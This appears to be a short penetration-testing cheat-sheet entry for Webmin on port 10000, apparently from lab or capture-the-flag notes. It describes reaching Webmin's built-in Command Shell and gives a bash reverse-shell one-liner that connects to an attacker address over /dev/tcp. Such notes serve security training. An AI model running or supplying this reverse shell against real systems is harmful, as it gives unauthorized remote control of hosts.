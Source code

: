 # (10000) Webmin

<details>

<summary>Obtain RCE on Webmin</summary>

In Dashboard --> Others --> Command Shell

<figure><img src="../.gitbook/assets/image (341).png" alt=""><figcaption></figcaption></figure>

Put in bash reverse shell

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/4545 0>&1'
```

<figure><img src="../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>

</details>
